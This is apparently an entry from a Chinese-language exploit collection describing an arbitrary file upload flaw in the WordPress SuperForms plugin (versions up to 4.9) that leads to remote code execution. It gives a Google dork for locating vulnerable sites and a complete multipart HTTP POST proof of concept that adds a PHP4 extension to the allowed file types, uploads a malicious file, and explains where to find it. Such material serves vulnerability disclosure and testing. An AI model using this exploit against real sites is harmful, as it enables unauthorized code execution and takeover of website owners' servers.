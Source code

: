 # WordPress SuperForms 4.9 任意文件上传到远程代码执行

# WordPress SuperForms 4.9 任意文件上传到远程代码执行

## 漏洞描述

SuperForms官方链接：https://renstillmann.github.io/super-forms/#/

参考链接：

- https://www.exploit-db.com/exploits/49490

## 漏洞影响

```
All (<= 4.9.X)
```

## Google Dork

```
inurl:"/wp-content/plugins/super-forms/"
```

## 漏洞复现

poc：

```
POST /wp-content/plugins/super-forms/uploads/php/ HTTP/1.1
 <=== exploit end point
Host: localhost
User-Agent: UserAgent
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data;
boundary=---------------------------423513681827540048931513055996
Content-Length: 7058
Origin: localhost
Connection: close
Referer: localhost
Cookie: 

-----------------------------423513681827540048931513055996
Content-Disposition: form-data; name="accept_file_types"

jpg|jpeg|png|gif|pdf|JPG|JPEG|PNG|GIF|PDF                        <=======
inject extension (|PHP4) to validate file to upload
-----------------------------423513681827540048931513055996
Content-Disposition: form-data; name="max_file_size"

8000000
-----------------------------423513681827540048931513055996
Content-Disposition: form-data; name="image_library"

0
-----------------------------423513681827540048931513055996
Content-Disposition: form-data; name="files[]";
filename="filename.(extension)"    <====   inject code extension (.php4)
for example
Content-Type: application/pdf

Evil codes to be uploaded

-----------------------------423513681827540048931513055996--

# Uploaded Malicious File can  be Found in :
/wp-content/uploads/superforms/2021/01/<id>/filename.php4
u can get <id> from server reply .
```


